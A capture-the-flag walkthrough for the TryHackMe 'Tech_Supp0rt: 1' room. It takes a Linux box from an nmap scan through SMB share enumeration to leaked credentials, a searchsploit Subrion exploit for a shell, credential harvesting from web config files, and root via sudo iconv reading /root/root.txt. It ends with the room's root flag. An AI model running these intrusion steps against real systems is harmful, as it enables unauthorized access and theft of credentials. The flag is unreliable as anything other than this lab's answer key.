 Machine: https://tryhackme.com/room/techsupp0rt1  

OS: Ubuntu (Linux)  
WEB TECHNOLOGY:  Wordpress(5.7.2),Subrion,Mysql,php

As usual start by exporting the IP to local variable  

```
export IP='10.10.228.84'
```  

------------------------------------------------------------------------------------------------  
Perform a Nmap scan:  

# Scanning and Reconnaisance  

NMAP RESULT:  

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m59s, deviation: 3h10m30s, median: 0s
| smb2-time: 
|   date: 2023-12-26T06:33:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-12-26T12:03:54+05:30
```

------------------------------------------------------------------------------------------  

PORTS/Services running:  

22 --> ssh  
80 --> http  
139,445 --> smb  

---------------------------------------------------------------------------------------------  
# ENUMERATION:  

HTTP (80):  
 
/test  
/wordpress --> /wp-admin  

Nothing Interesting Directory were found  

------------------------------------------------------------------------------------------------

SMB (139,445):  

```
smbmap -H $IP
```  

"websvr" has Read permission  

enumerating it:  

```
smbclient \\\\$IP\\websvr
```  

Found a text file named 'enter.txt' get the file in your device  

```
get enter.txt
```  

the file contains the username and password(encrypted) and gives the hint where to login with the provided credentials  

head to the site:  $IP/subrion/panel  

-----------------------------------------------------------------------------------------------------------------------------------
# Getting a shell  

Now, I found a python exploit to get the shell (found it using searchsploit)  

```
searchsploit subrion
```  

Get the exploit to the current directory by  

```
searchsploit -m php/webapps/49876.py
```  

Now run the exploit to get the shell and find the username and password from /home and /var/www/html/wordpress/php-config.php  file  

After getting the Credentials SSH into the machine  

```
ssh scamsite@$IP
```  

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Priviledge Escallation  

check the sudo permissions  
  
```
sudo -l
```  

Now use 'gtfobins' for escalling the priviledge  

Read the Root flag:  

```
FILE='/root/root.txt'
```  

```
/usr/bin/iconv -f 8859_1 -t 8859_1 "$FILE"
```  


Root Flag: 851b8233a8c09400ec30651bd1529bf1ed02790b  


